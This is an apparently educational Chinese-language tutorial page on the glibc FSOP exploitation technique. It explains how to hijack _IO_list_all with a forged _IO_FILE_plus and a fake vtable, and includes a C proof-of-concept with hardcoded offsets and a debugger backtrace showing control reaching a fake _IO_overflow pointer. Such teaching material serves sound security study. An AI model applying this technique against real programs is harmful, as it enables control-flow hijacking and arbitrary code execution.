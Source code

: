 ```yaml
---
title: FSOP
url: /pwn/linux/user-mode/io-file/fsop
tags:
- desc:fake-file-structure
- desc:file-stream-oriented-programming
- desc:fsop
- desc:glibc-io-exploitation
- desc:io-file-exploitation
- desc:io-list-all-hijacking
- desc:io-overflow-hijacking
- desc:vtable-hijacking
- preq:arbitrary-write
- preq:controlled-memory-allocation
- preq:fake-io-file-plus-structure
- preq:fake-vtable-construction
- preq:io-list-all-overwrite
- preq:io-write-base-control
- preq:io-write-ptr-control
- preq:libc-base-leak
- preq:mode-field-control
- res:arbitrary-code-execution
- res:control-flow-hijacking
- res:io-overflow-redirection
- res:triggered-on-abort
- res:triggered-on-exit
- res:triggered-on-main-return
- res:vtable-function-call
---
```

# FSOP

## 介绍
FSOP是File Stream Oriented Programming的缩写，根据前面对FILE的介绍得知进程内所有的_IO_FILE结构会使用_chain域相互连接形成一个链表，这个链表的头部由_IO_list_all维护。

FSOP的核心思想就是劫持_IO_list_all的值来伪造链表和其中的_IO_FILE项，但是单纯的伪造只是构造了数据还需要某种方法进行触发。FSOP选择的触发方法是调用_IO_flush_all_lockp，这个函数会刷新_IO_list_all链表中所有项的文件流，相当于对每个FILE调用fflush，也对应着会调用_IO_FILE_plus.vtable中的_IO_overflow。

```
int
_IO_flush_all_lockp (int do_lock)
{
  ...
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
  {
       ...
       if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
        ...
  }
}
```

![](./figure/abort_routine.001.jpeg)

而_IO_flush_all_lockp不需要攻击者手动调用，在一些情况下这个函数会被系统调用：

1.当libc执行abort流程时

2.当执行exit函数时

3.当执行流从main函数返回时


## 示例

梳理一下FSOP利用的条件，首先需要攻击者获知libc.so基址，因为_IO_list_all是作为全局变量储存在libc.so中的，不泄漏libc基址就不能改写_IO_list_all。

之后需要用任意地址写把_IO_list_all的内容改为指向我们可控内存的指针，

之后的问题是在可控内存中布置什么数据，毫无疑问的是需要布置一个我们理想函数的vtable指针。但是为了能够让我们构造的fake_FILE能够正常工作，还需要布置一些其他数据。
这里的依据是我们前面给出的

```
if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base))
	           && _IO_OVERFLOW (fp, EOF) == EOF)
	       {
	           result = EOF;
          }
```

也就是

* fp->_mode <= 0
* fp->_IO_write_ptr > fp->_IO_write_base



在这里通过一个示例来验证这一点，首先我们分配一块内存用于存放伪造的vtable和_IO_FILE_plus。
为了绕过验证，我们提前获得了_IO_write_ptr、_IO_write_base、_mode等数据域的偏移，这样可以在伪造的vtable中构造相应的数据

```
#define _IO_list_all 0x7ffff7dd2520
#define mode_offset 0xc0
#define writeptr_offset 0x28
#define writebase_offset 0x20
#define vtable_offset 0xd8

int main(void)
{
    void *ptr;
    long long *list_all_ptr;

    ptr=malloc(0x200);

    *(long long*)((long long)ptr+mode_offset)=0x0;
    *(long long*)((long long)ptr+writeptr_offset)=0x1;
    *(long long*)((long long)ptr+writebase_offset)=0x0;
    *(long long*)((long long)ptr+vtable_offset)=((long long)ptr+0x100);

    *(long long*)((long long)ptr+0x100+24)=0x41414141;

    list_all_ptr=(long long *)_IO_list_all;

    list_all_ptr[0]=ptr;

    exit(0);
}
```

我们使用分配内存的前0x100个字节作为_IO_FILE，后0x100个字节作为vtable，在vtable中使用0x41414141这个地址作为伪造的_IO_overflow指针。

之后，覆盖位于libc中的全局变量 _IO_list_all，把它指向我们伪造的_IO_FILE_plus。

通过调用exit函数，程序会执行 _IO_flush_all_lockp，经过fflush获取_IO_list_all的值并取出作为_IO_FILE_plus调用其中的_IO_overflow

```
---> call _IO_overflow
[#0] 0x7ffff7a89193 → Name: _IO_flush_all_lockp(do_lock=0x0)
[#1] 0x7ffff7a8932a → Name: _IO_cleanup()
[#2] 0x7ffff7a46f9b → Name: __run_exit_handlers(status=0x0, listp=<optimized out>, run_list_atexit=0x1)
[#3] 0x7ffff7a47045 → Name: __GI_exit(status=<optimized out>)
[#4] 0x4005ce → Name: main()

```
